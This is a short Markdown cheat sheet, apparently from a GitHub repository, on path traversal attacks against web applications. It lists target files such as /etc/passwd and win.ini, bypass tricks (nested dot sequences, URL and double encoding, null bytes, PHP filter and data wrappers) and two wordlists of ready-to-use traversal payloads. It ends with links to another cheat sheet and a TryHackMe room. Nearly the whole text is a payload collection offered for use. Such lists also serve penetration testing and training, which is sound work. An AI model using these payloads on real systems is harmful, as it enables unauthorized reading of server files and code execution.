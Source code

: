 # Path Traversal Cheat Sheet

#### Common Paths to read
```txt
/etc/passwd
/var/log/apache2/access.log
```
___
#### Common Method
```txt
../../../etc/passwd >> For linux

..\..\..\windows\win.ini >> For windows
```
#### Bypassing Defence Mechanism
1. Sequence block bypass >> ....//....//....//....//etc/passwd
2. Sequence block bypass2 >> ..//..//..//..//etc/passwd
3. Encoding ../ >> %2e%2e%2f
4. Absolute path >> /var/www/images/../../../etc/passwd
5. Absolute path2 >> /var/www/html/..//..//..//etc/passwd
6. Using null byte >> ../../../etc/passwd%00.png
7. Using PHP wrappers >> php://filter/convert.base64-encode/resource=/etc/passwd
8. Using Data wrappers >> data:text/plain,<?php%20phpinfo();%20?>
#### Wordlist
```txt
/etc/passwd
../../../../../../../etc/passwd
..//..//..//..//etc/passwd
....//....//....//....//etc/passwd
/var/www/images/../../../etc/passwd
/var/www/images/..//..//..//..//etc/passwd
/var/www/images/....//....//....//....//etc/passwd
%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
..%252f..%252f..%252fetc/passwd
%2Fetc%2Fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
%2e%2e%2f%2f%2e%2e%2f%2f%2e%2e%2f%2fetc%2e%2e%2fpasswd
```
#### File extension with null byte bypass
```
/etc/passwd%00
../../../etc/passwd%00
..//..//..//..//etc/passwd%00
....//....//....//....//etc/passwd%00
/var/www/images/../../../etc/passwd%00
/var/www/images/..//..//..//..//etc/passwd%00
/var/www/images/....//....//....//....//etc/passwd%00
%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd%00
..%252f..%252f..%252fetc/passwd%00
%2Fetc%2Fpasswd%00
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd%00
%2e%2e%2f%2f%2e%2e%2f%2f%2e%2e%2f%2fetc%2e%2e%2fpasswd%00
```
### External Cheat Sheet
https://github.com/JahTheTrueGod/Directory-Traversal-Cheat-Sheet
### To learn
https://tryhackme.com/r/room/filepathtraversal
